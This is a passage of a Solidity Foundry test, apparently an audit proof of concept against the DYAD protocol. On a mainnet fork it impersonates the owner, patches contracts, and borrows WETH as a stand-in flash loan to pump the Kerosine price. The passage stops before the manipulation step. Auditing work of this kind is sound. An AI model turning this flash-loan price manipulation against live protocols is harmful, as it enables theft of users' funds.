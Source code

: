 ```
  function testUseFlashLoansToPumpKerosinePrice_Debug() public {
    // We license the vault manager to be able to mint DYAD
    vm.prank(MAINNET_OWNER);
    Licenser(contracts.vaultLicenser).add(address(contracts.vaultManager));

    DNft dNft = DNft(MAINNET_DNFT);
    
    // Add the vault manager to the OLD licenser to allow minting DYAD
    vm.prank(MAINNET_OWNER);
    Licenser(0xd8bA5e720Ddc7ccD24528b9BA3784708528d0B85).add(address(contracts.vaultManager));

    // We reset the DNft contract to be able to mint free DNfts
    vm.etch(address(MAINNET_DNFT), address(new DNft()).code);
    dNft = DNft(MAINNET_DNFT);

    uint id1 = dNft.mintNft(address(this));
    uint id2 = dNft.mintNft(address(this));
    uint id3 = dNft.mintNft(address(this));

    // We patch the Unbounded Kerosine Vault so that it doesn't count the v1 DYAD
    vm.etch(
      address(contracts.unboundedKerosineVault),
      address(
        new UnboundedKerosineVaultFixed(
          contracts.vaultManager,
          Kerosine(MAINNET_KEROSENE), 
          Dyad    (MAINNET_DYAD),
          contracts.kerosineManager
        )
      ).code
    );

    // We patch the VaultManager so that it uses the Licenser to decide on adding kerosene vaults to DNfts
    vm.etch(
      address(contracts.vaultManager),
      address(
        new VaultManagerV2Fixed(
        DNft(MAINNET_DNFT),
        Dyad(MAINNET_DYAD),
        contracts.vaultLicenser
      )
      ).code
    );

    // Get some weth. This would be own funds.
    vm.prank(0xBBBBBbbBBb9cC5e90e3b3Af64bdAF62C37EEFFCb);
    ERC20(MAINNET_WETH).transfer(address(this), 10 ether);

    // Add the weth vault to note 1 and deposit 10 eth    
    contracts.vaultManager.add(id1, address(contracts.ethVault));
    ERC20(MAINNET_WETH).approve(address(contracts.vaultManager), 10 ether);
    contracts.vaultManager.deposit(id1, address(contracts.ethVault), 10 ether);

    // Record the normal kerosine price
    console2.log("Normal Kerosine Price: %s", contracts.unboundedKerosineVault.assetPrice());

    // Obtain weth from Morpho, we would return this later. Easy to code flash loan equivalent.
    vm.prank(0xBBBBBbbBBb9cC5e90e3b3Af64bdAF62C37EEFFCb);
    ERC20(MAINNET_WETH).transfer(address(this), 1000 ether);
    console2.log("WETH obtained as a flash loan: %s", displayDecimals(ERC20(MAINNET_WETH).balanceOf(address(this)), 18));

```